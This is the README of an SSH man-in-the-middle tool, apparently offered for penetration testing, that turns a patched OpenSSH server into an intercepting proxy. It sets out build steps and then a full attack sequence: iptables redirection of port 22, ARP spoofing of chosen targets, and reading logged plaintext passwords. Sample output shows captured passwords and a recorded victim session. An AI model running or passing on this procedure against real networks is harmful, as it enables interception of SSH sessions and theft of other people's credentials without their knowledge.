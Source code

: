 # SSH MITM v1.1

Author: [Joe Testa](http://www.positronsecurity.com/about-us/)


## Overview

This penetration testing tool allows an auditor to intercept SSH connections.  A patch applied to the OpenSSH v7.5p1 source code causes it to act as a proxy between the victim and their intended SSH server; all plaintext passwords and sessions are logged to disk.

Of course, the victim's SSH client will complain that the server's key has changed.  But because 99.99999% of the time this is caused by a legitimate action (OS re-install, configuration change, etc), many/most users will disregard the warning and continue on.

**NOTE:** Only run the modified *sshd* in a VM or container!  Ad-hoc edits were made to the OpenSSH sources in critical regions, with no regard to their security implications.  Its not hard to imagine these edits introduce serious vulnerabilities.


## Change Log

* v1.0: May 16, 2017: Initial revision.
* v1.1: ???, 2017: Removed root privilege dependencies.


## To Do

This is the first release of this tool.  While it is very useful as-is, there are nevertheless things to improve:

* Support SFTP MITM'ing.
* Add port forwarding support.
* Create wrapper script that detects when user is trying to use key authentication only, and de-spoof them automatically.


## Initial Setup

1.) Install zlib and openssl headers:

    sudo apt install zlib1g-dev libssl-dev

2.) Download OpenSSH v7.5p1 and verify its signature:

    wget https://ftp.openbsd.org/pub/OpenBSD/OpenSSH/RELEASE_KEY.asc
    wget https://ftp.openbsd.org/pub/OpenBSD/OpenSSH/portable/openssh-7.5p1.tar.gz
    wget https://ftp.openbsd.org/pub/OpenBSD/OpenSSH/portable/openssh-7.5p1.tar.gz.asc
    gpg --import RELEASE_KEY.asc
    gpg --verify openssh-7.5p1.tar.gz.asc openssh-7.5p1.tar.gz

3.) Unpack the tarball, patch the sources, and compile it:

    tar xzf openssh-7.5p1.tar.gz
    patch -p0 < openssh-7.5p1-mitm.patch
    mv openssh-7.5p1 openssh-7.5p1-mitm; cd openssh-7.5p1-mitm; ./configure --with-sandbox=no && make -j 10

4.) Create keys and setup environment:

    sudo ssh-keygen -t ed25519 -f /usr/local/etc/ssh_host_ed25519_key < /dev/null
    sudo ssh-keygen -t rsa -b 4096 -f /usr/local/etc/ssh_host_rsa_key < /dev/null
    sudo useradd -m sshd && sudo useradd -m bogus && sudo chmod 0700 ~sshd ~bogus
    sudo mkdir /var/empty; sudo cp ssh ~bogus/


## Running The Attack

1.) Run *sshd*:

    cd /path/to/openssh-7.5p1-mitm
    sudo $PWD/sshd -f $PWD/sshd_config

2.) Enable IP forwarding:

    sudo bash -c "echo 1 > /proc/sys/net/ipv4/ip_forward"
    sudo iptables -P FORWARD ACCEPT

3.) Allow connections to *sshd* and re-route forwarded SSH connections:

    sudo iptables -A INPUT -p tcp --dport 22 -j ACCEPT
    sudo iptables -t nat -A PREROUTING -p tcp --dport 22 -j REDIRECT --to-ports 22

4.) ARP spoof a target(s) (**Protip:** do NOT spoof all the things!  Your puny network interface won't likely be able to handle an entire network's traffic all at once.  Only spoof a couple IPs at a time):

    arpspoof -r -t 192.168.x.1 192.168.x.5

5.) Monitor *auth.log*.  Intercepted passwords will appear here:

    sudo tail -f /var/log/auth.log

6.) Once a session is established, a full log of all input & output can be found in */home/bogus/session_\*.txt*.


## Sample Results

Upon success, */var/log/auth.log* will have lines that log the password, like this:

    May 16 23:14:01 showmeyourmoves sshd[16798]: INTERCEPTED PASSWORD: hostname: [10.199.30.x]; username: [jdog]; password: [supercalifragilistic] [preauth]

Furthermore, the victim's entire SSH session can be found in */home/bogus/session_\*.txt*:

    # cat /home/bogus/session_0.txt
    Last login: Tue May 16 21:35:00 2017 from 10.50.22.x
    OpenBSD 6.0-stable (GENERIC.MP) #12: Sat May  6 19:08:31 EDT 2017

    Welcome to OpenBSD: The proactively secure Unix-like operating system.

    Please use the sendbug(1) utility to report bugs in the system.
    Before reporting a bug, please try to reproduce it with the latest
    version of the code.  With bug reports, please try to ensure that
    enough information to reproduce the problem is enclosed, and if a
    known fix for it exists, include that as well.

    jdog@jefferson ~ $ ppss
      PID TT  STAT       TIME COMMAND
    59264 p0  Ss      0:00.02 -bash (bash)
    52132 p0  R+p     0:00.00 ps
    jdog@jefferson ~ $ iidd
    uid=1000(jdog) gid=1000(jdog) groups=1000(jdog), 0(wheel)
    jdog@jefferson ~ $ sssshh  jjtteessttaa@@mmaaggiiccbbooxx
    jtesta@magicbox's password: ROFLC0PTER!!1juan


Note that the characters in the user's commands appear twice in the file because the input from the user is recorded, as well as the output from the shell (which echoes characters back).  Observe that when programs like sudo and ssh temporarily disable echoing in order to read a password, duplicate characters are not logged.


## Developer Documentation

In *lol.h* are two defines: *DEBUG_HOST* and *DEBUG_PORT*.  Enable them and set the hostname to a test server.  Now you can connect to *sshd* directly without using ARP spoofing in order to test your changes, e.g.:

    ssh valid_user_on_debug_host@localhost

To create a new patch, use these commands:

    pushd openssh-7.5p1-mitm/; make clean; popd
    diff -ru --new-file -x '*~' -x 'config.*' -x Makefile.in -x Makefile -x opensshd.init -x survey.sh -x openssh.xml -x buildpkg.sh openssh-7.5p1 openssh-7.5p1-mitm/ > openssh-7.5p1-mitm.patch
